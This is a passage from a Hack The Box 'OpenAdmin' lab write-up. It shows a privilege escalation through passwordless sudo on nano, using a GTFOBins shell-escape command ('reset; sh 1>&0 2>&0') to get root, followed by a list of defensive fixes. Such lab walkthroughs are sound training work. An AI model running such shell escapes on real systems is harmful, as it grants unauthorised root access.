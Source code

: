 And we are in with Joanna.

{:refdef: style="text-align: center;"}
![Joanna User](../../assets/img/writeups/htb/openadmin/joanna_user.png)
{: refdef}

### Privilege Escalation

Running `sudo -l` we see that joanna can run `/bin/nano /opt/priv`. Now we just need to break out of Nano and get a shell.

#### GTFO: Nano Edition

Following the instructions found on [GTFOBins](https://gtfobins.github.io/gtfobins/nano/){:target="_blank"}([7])

~~~bash
/bin/nano /opt/priv
# ^R == Cntrl-R at the same time
^R^X
reset; sh 1>&0 2>&0
~~~

And we are root!

{:refdef: style="text-align: center;"}
![Root User](../../assets/img/writeups/htb/openadmin/root_user.png)
{:refdef}

### Conclusion

#### Fixes

As always, I try to determine fixes that could have stopped us from getting root. They are not guranteed to be correct, nor the only approach out there.

1. OpenNetAdmin allows for remote code execution through its login page  
**Fix: As I said above, I am unsure 100% how the exploit works, so I have no suggested fix at this time**
2. Plaintext database credentials, reused on user jimmy  
**Fix: Do not reuse passwords, store credentials safely and NOT in plaintext**
3. Internal site dumped SSH key for Joanna  
**Fix: Do not give Jimmy permission to a local webpage which runs under Joanna's permissions**
4. Joanna could run sudo without a password on Nano  
**Fix: Audit which users can run sudo without passwords, and check if they are necessary. In this case, Joanna should NOT be allowed to call sudo without a password**

#### Final Thoughts
